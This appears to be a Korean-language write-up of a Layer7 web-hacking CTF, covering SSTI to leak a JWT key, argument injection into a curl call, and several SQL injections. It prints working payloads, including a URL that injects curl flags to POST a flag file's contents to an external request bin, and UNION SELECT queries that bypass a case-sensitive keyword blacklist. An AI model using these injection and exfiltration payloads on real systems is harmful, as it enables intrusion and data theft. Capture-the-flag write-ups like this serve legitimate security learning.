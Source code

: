 ```yaml
---
title: Layer7 WebHacking mini CTF | Write-up
categories:
    - Layer7
    - Reversing
tags:
    - Layer7
    - Reversing
date: 2025-08-07
---
```



## Rednose U

![](image1.png)
`SSTI`로 `JWTKey`를 얻을 수 있어서 대시보드에 접속할 수 있다.

<br>

![](image2.png)
![](image3.png)

대시보드를 보면 `/api/metar`에서 `airport` 인자로 특정 주소에서 값을 가져오는 것으로 보이는데, 코드를 보면 `curl`을 실행하는 것을 확인할 수 있다.

<br>

![](image4.png)

그래서 플래그를 읽어서 리퀘스트 빈에 보내도록 하였다.

`http://211.177.227.113:65303/api/metar?airport=-X%20POST%20https://cqymucy.request.dreamhack.games%20-d%20%22$(cat%20flag_qaiu.txt)%22` 

<br>

## W2

![](image5.png)
![](image6.png)
![](image7.png)

`fstring`으로 쿼리문을 처리하기 때문에 `SQLI` 취약점이 터진다.

`flags` 테이블에 있는 플래그를 `UNION` 명령을 통해 출력하도록 하였다. 블랙리스트에 있는 `select`는 소문자만 막기 때문에 대문자로 우회 가능하다.

`http://211.177.227.113:65304/profile?id=1234%20UNION%20SELECT%20%27flag%27,flag_value,%27%27,%27secret%27%20FROM%20flags%20WHERE%20flag_name=%27main_flag%27--`

<br>

## SRS

````
L7_WH_CTF/SRS/for_user via  v3.13.5 
❯ cat flag_server.py | grep Layer7{
        'flag': 'Layer7{ssrf_easy}',
````

문제 파일에 플래그가 하드코딩 되어있다.

<br>

## T야?

![](image8.png)

여기도 `fstring`으로 쿼리문을 처리해서 `SQLI`가 터지는 걸 알 수 있다.

<br>

![](image9.png)

`flags` 테이블에서 플래그를 가져와 `username`에 `UNION` 해줬다.

`' UNION SELECT 1, flag_value, 'dummy', 'admin' FROM flags --`
